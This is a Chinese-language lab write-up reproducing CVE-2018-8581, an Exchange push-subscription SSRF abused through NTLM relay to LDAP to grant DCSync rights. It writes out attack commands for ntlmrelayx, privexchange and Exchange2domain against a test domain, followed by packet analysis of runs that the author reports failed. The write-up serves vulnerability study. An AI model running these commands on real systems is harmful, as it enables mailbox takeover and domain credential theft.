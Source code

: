 # CVE-2018-8581

## 一、原理

Exchange服务器的推送订阅接口存在SSRF，它允许为任何用户推送订阅所指定的URL，当Exchange尝试连接用户指定的URL时候，将会用`CredentialCache.DefaultCredentials`方式进行。

其中`CredentialCache.DefaultCredentials`是以最高权限`SYSTEM`权限运行，通过SSRF发送Exchange的最高权限net NTLM给攻击者，注意SSRF回连Attack是以MAIL权限。

+ 攻击1

  在调用接口时候，使用其他用户SID来伪造攻击，从而可以达到收取他人邮件，模拟他人发送邮件。攻击者利用反射攻击回到Exchange服务器去调用接口，这个时候是最高权限的调用。

+ 攻击2

  通过NTLM Relay中`HTTP -> LDAP`协议的转变，进而攻击域控。由于Exchange角色权限具有修改writeDACL权限，可以将普通域用户赋予具有DCSync权限，从而Dump域控中的Hash信息。

## 二、测试环境

windows 2012：域控 192.168.15.161

windows 2012+Exchange 2016： 邮件服务器 192.168.15.158

windows7：攻击机 192.168.15.130

域用户：geroge (也是邮件服务的用户)

## 三、复现-攻击2

### 3.1 攻击机开启服务，进行监听

`python ntlmrelayx.py -t ladp://192.168.15.161 --escalate-user geroge`

![](.\pictures\cve_2018_8581_ntlmrelay1.PNG)

等待邮件服务器回连。

### 3.2 向邮件服务器指定推送订阅的URL

`python privexchange.py -ah 192.168.15.130 192.168.15.158 -u geroge -d park.com`

输入用户口令后得到如下结果

![](.\pictures\cve_2018_8581_ews1.PNG)

脚本运行成功。抓包分析如下：

![](.\pictures\cve_2018_8581_ews2.PNG)

攻击机利用Exchange Web Services(EWS)的推送订阅功能强制Exchange服务器向任意指定的URL进行NTLM认证，这一步由563号数据包完成。在进行推送订阅时，攻击机要向Exchange服务器进行认证（wireshark中563号数据包应该是在562号数据包前的）因此，攻击者需要一个合法的普通用户身份。696号数据包为服务器的响应数据包。

### 3.3 邮件服务器回连攻击机

推送订阅成功后，稍等片刻，攻击机监听程序即收到服务器的回连数据包

![](.\pictures\cve_2018_8581_ntlmrelay2.PNG)

但是连接失败，提示未找到LDAP客户端协议，wireshark抓包分析，

![](.\pictures\cve_2018_8581_ntlmrelay3.PNG)

4187号数据包：邮件服务器回连攻击机；

4189号数据包：攻击机提示邮件服务器使用NTLM进行认证；

4196号数据包：邮件服务器发起NTLM协商；

4202号数据包：攻击机给邮件服务器重定向响应，这里不甚明白，为何如此，使用另外一个利用脚本即可（https://github.com/Ridter/Exchange2domain）。

### 3.4 更换利用脚本

`python Exchange2domain.py -ah 192.168.15.130 -u geroge -d park.com -th 192.168.15.161 192.168.15.158`

![](.\pictures\cve_2018_8581_ntlmrelay4.png)

仍然未能成功，提示在更新ACL（access control list）时发生了错误，抓包分析,

![](.\pictures\cve_2018_8581_ntlmrelay5.png)

ntlm中继成功，攻击机仿冒“PARK\MAIL$”认证成功，然而在修改ACL时权限不够。

![](.\pictures\cve_2018_8581_ntlmrelay6.png)

完整的wireshark数据包(./resources/cve_2018_8581_exchange2domain.pcapng)

## 复现-攻击1

原理类似，利用ntlm中继攻击邮件服务器，同样没有成功。

## 参考资料

[microsoft exchange 漏洞分析][https://0kee.360.cn/blog/microsoft-exchange-cve-2018-8581/]

